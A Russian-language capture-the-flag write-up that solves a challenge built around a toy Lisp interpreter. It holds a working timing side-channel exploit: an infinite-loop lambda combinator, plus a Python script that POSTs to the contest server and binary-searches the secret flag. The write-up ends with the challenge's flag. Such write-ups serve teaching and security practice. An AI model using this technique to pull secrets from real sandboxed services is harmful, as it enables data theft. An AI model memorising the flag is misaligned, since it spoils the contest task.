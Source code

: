 # If a tree falls in a forest: Write-up

## Пролог о чистоте

Вован и Толик подняли очень важный вопрос. Вопрос о чистоте. Это ~~мем~~ понятие из функционального программирования о том, что идеальный код не должен иметь побочных эффектов. То есть, функции должны быть чистыми. А чистые функции в свою очередь должны всегда работать одинаково и зависеть только от своего аргумента. Изменился аргумент — изменилось значение, не изменился — результат будет одинаковым, сколько раз её ни вызови.

Рассмотрим антитезис:

<img src="writeup/plug.jpg" height=200>

Является ли электрический провод, от которого питается компьютер, универсальным аргументом всякой чистой функции, которая выполняется на этом компьютере? Ведь если вынуть её, результат вычисления изменится: пользователь окажется перед чёрным экраном. Будет ли это вообще результат? Какого он типа? Какое у него значение? Что-то не сходится.

А может быть так, что чистых функций не существует, и это всё — лишь красивая абстракция, некий идеал, к которому можно бесконечно стремиться, но достичь невозможно? Нам, людям безопасности, выгоднее подходтить к вопросу о чистоте именно с такой, проникнутой пессимизмом, точки зрения. Ведь нам нужно ломать. Ломать, чтобы ближе понимать суть вещей, видеть их такими, какими они являются, не будучи окутанми в пелену идеальных определений.

И ломать куда проще, когда видишь перед собой очередную несовершенную программу. Постулируем: побочные эффекты будут всегда.

Такие дела.

## Изучаем интерпретатор

Откроем `lisp.py` из вложения. Это интерпретатор лиспа. Лиспами называют целое семейство языков, которые характеризуются следующими свойствами:

1. Всё — списки. Список задаётся перечислением его элементов в круглых скобках через пробел: `(1 2 3 (4 5 6))`.
2. Список, поданный, на вход — программа. Она состоит из функции — первого элемента списка — и её аргументов — всего остального. Пример такой программы: `(+ 1 (- 3 2))`, её результат: `2`.

> Это как шахматы: правила просты и запоминаются легко — их знают многие. А вот гроссмейстеров в мире немного. Лисп — удивительная вещь, поскольку для хранения данных и кода используется одна и та же структура данных, что позволяет программировать программы, которые на лету программируют сами себя или новые программы или программы, программирующие новые программы — всё так же на лету. 

Наш лисп довольно простой. Вот что он умеет:

```python
base_ctx = {
    "nil": nil,
    "+": lambda ctx, *args: sum((interpret(ctx, arg) for arg in args), 0),
    "-": lambda ctx, a, b: interpret(ctx, a) - interpret(ctx, b),
    "quote": lambda ctx, arg: arg,
    "list": lambda ctx, *args: [interpret(ctx, arg) for arg in args],
    "if": lambda ctx, cond, then, else_: DelayedInterpret(ctx, then if interpret(ctx, cond) != nil else else_),
    "lambda": lambda lctx, names, expr: lambda cctx, *largs: DelayedInterpret(lctx | {name: interpret(cctx, larg) for name, larg in zip(names, largs)}, expr),
    "eq": lambda ctx, a, b: True if interpret(ctx, a) == interpret(ctx, b) else nil,
    "lt": lambda ctx, a, b: True if interpret(ctx, a) < interpret(ctx, b) else nil,
    "gt": lambda ctx, a, b: True if interpret(ctx, a) > interpret(ctx, b) else nil,
    "car": lambda ctx, lst: interpret(ctx, lst)[0],
    "cdr": lambda ctx, lst: interpret(ctx, lst)[1:],
}
```

Есть базовая арифметика, условный оператор, лямбда, сравнения и функции `car` с `cdr`: первая возвращает начало списка, вторая — всё кроме начала, вкупе они позволяют перемещаться внутри списков.

> Связанных списков. Но здесь YAML-безобразие...

Дальше в коде видно, что в контекст интерпретатора при запуске помещается переменная `flag`, которую необходимо каким-то образом прочитать. Она берётся из окружения переменных, поэтому достать её можно только из того интерпретатора, что запущен на сервере.

Но каждая встроенная функция чистая. Они работают в общем контексте, но он передаётся аргументом. Никаких побочных эффектов, никакого ввода, никакого вывода! 

Вспомним наш постулат. Побочный эффект есть всегда. Можем ли мы сломать интерпретатор? Вынуть провод? Вспоминается тезис Тюринга-Чёрча, о том, что любая вычислительная машина способна зависнуть — погрузиться в вечный цикл.

## Ломаем интерпретатор

Делов-то. Напишем функцию «зависни». Это обеспечит тот самый побочный эффект, который позволит нам менять поведение интерпретатора по своему усмотрению.

Рассмотрим такой псевдокод: 
```python
if условие:
    зависни()
else:
    pass
```

Если условие удовлетворено, программа зависнет. Это мы сможем увидеть снаружи и таким образом извлечь один бит информации изнутри.

Флаг представлен списком целых чисел, которые соответствуют кодам в ACII. Мы можем выполнять арифметические сравнения. Диапазон значений известен: 0…255. Следовательно, можно написать бинарный поиск. 

### Зависни!

Но как погрузить лисп в вечный цикл? В этом лиспе нет `loop` или подобных конструкций. Рекурсия? 

```python
def f():
    f()
```

Мило, но у нас нет переменных. И, однако, это всё равно возможно. Вопрос о том, как написать цикл внутри системы без переменных, учёные решили ещё в начале прошлого века, когда эти рассуждения были сугубо теоретическими. Ответ — [Y-комбинатор](https://lptk.github.io/programming/2019/10/15/simple-essence-y-combinator.html).

$$Y = \lambda f.\ (\lambda x.\ f\ (x\ x))(\lambda x. f\ (x\ x))$$

> Здесь используется синтаксис [лямбда-исчисления](https://serokell.io/blog/untyped-lambda-calculus). У современных лямбд, которые есть во многих языках программирования, ноги расстут именно отсюда. Это фундаментальное учение о вычислениях, оказавшее большое влияние на то, как устроены компьютеры, и как мы представляем себе вычисления в принципе.   


Это занимательное выражение при раскрытии скобок преобразуется само в себя. Можете попробовать. Оно же в чуть более понятном виде:

```python
Y = lambda f: (lambda x: f(x(x)))(lambda x: f(x(x)))
```

Это комбинация безымянных функций, которая будет бесконечно выполнять `f`. Нам выполнять ничего особенно не нужно, поэтому можно упростить выражение.

```python
>>> (lambda x: x(x))(lambda x: x(x))
# Traceback (most recent call last):
#     ...
# RuntimeError: maximum recursion depth exceeded
```

Переведём её на лисп:

```lisp
((lambda (x) (x x)) (lambda (x) (x x)))
```

### Всё складывается

Если выполнить этот код, интерпретатор не зависнет навечно — в системе предусмотрено ограничение на время выполнения в 2 секунды. 

Теперь мы можем доставать результаты выполнения функции `if`:

```python
HANG = "((lambda (x) (x x)) (lambda (x) (x x)))"


def run(prog: str):
    start = time.time()
    requests.post(f"https://thescenicroute.q.2024.ugractf.ru/{TOKEN}", data={"lisp": prog})
    return time.time() - start


def cond(prog: str):
    return run(f"(if {prog} {HANG} nil)") > 2
```

Осталось написать бинпоиск.

```python
while True:
    if not cond(flag_formula):
        break
    l = 0
    r = 256
    while r - l > 1:
        m = (l + r) // 2
        if cond(f"(lt (car {flag_formula}) {m})"):
            r = m
        else:
            l = m
    flag += chr(l)
    print(flag)
    flag_formula = f"(cdr {flag_formula})"
```

Результат не заставит себя ждать:

```
u
ug
ugr
ugra
ugra_
...
```

Поиск флага занимает примерно двадцать минут. Но сам факт, что это возможно, заставляет посмотреть на спор Вована и Толика чуть другими глазами. Кто-то из них явно что-то знает.

А мы всё опять сломали.


Флаг: **ugra_thats_why_total_functional_programming_exists_70yfuxs44w6z**
